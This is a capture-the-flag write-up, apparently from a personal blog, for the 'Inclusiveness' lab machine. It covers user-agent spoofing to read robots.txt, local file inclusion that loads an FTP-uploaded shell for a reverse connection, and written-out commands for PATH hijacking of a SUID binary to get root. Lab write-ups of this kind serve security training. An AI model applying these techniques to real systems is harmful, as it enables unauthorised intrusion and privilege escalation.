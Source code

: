 <a href="https://0xvenus.github.io" style="display:inline-block; padding:8px 12px; background:#0078d4; color:#fff; text-decoration:none; border-radius:4px;">
    ⬅ Back to Homepage
</a>


<h2>Inclusiveness PG</h2>

Let's hack the target 🤭

### NMAP SCAN

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b0e19282-780e-40e6-bafc-4f3346bf5f8a)

Anonymous ftp is enabled but there's nothing on the server 🙂

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/2adfb636-b556-4793-a277-98ffc5535ea1)

let's proceed to port 80 http

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/64b94444-ebca-4d66-b74d-b8d760858d55)

we saw apache default page

so, let's check ``robots.txt``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/881bb90e-c274-41a2-aed6-660bc31fbca8)

we can't view it content from the web 😯😯

we can actually bypass that by modifying the useragent and we can use `curl` yeah

``curl -s --user-agent Googlebot http://192.168.204.14/robots.txt -v``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/f2ae9a7e-3909-4304-ad75-1299c2e4b662)

we can see the new endpoint ``/secret_information/``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/363a5a04-fc35-4107-9fee-e347cef80da2)

Note on DNS ZONE TRANSFER and i don't think this box has something to do with that

so clicking on the language hyperlink showed this
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/c9f5e123-dbb8-4ec3-9874-2052d2bacb79)

screaming file inclusion lool 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/d0f09d00-d129-495f-ac3c-8f7d8d016447)
we have lfi fr

recall we can write to the ``/pub`` directory on the ftp server

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/fb4b01c5-8d7e-4426-918e-4f34546d0c71)

so we can put our shell into the directory and load it via the webserver through the ftp path to spawn a reverse connection 

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/e17282d4-5cee-43b8-85db-f1bd3e9b0297)

set your netcat and load the shell

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/075d15dd-6172-4f2e-88a2-5887f4d929fb)

spawn it
![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/3e5c036a-0702-4411-b65a-2f35cb34ed9d)

### PRIVILEGE ESCALATION

So, find command gave list of programs that has the SUID bit where I notice /home/tom/rootshell.

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/b45180eb-b46f-4ea7-bfef-0fd429b8ed74)

``Inside /root/tom/ I found rootshell.c file and a compile file rootshell that owns SUID permissions.
According this piece of code if the file is executed as Tom user by calling the function for “whoami” program for validation then you will get a privilege shell else it will print user-ID that is currently logged in will be displayed.``

In simple words the rootshell program give a high privilege shell if the output of whoami program will be “tom”.

You can easily take advantage of this configuration by abusing the PATH system. Here, we built a file as “whoami” in the / tmp directory, and write the following bash code to print “tom”

``cd /tmp``

``echo "printf "tom"" > whoami``

``chmod 777 whoami``


Add a temporary path variable with the help of the following command. you will observe that we had added /tmp as PATH variable.


``export PATH=/tmp:$PATH``

``echo path``

Execute the rootshell

``
cd /home/tom;./rootshell
``

![image](https://github.com/0xVenus/0xVenus.github.io/assets/97831939/678f3e03-2613-4d6b-af49-848ee6964bc6)


And we are done.


Thank you 🔥.







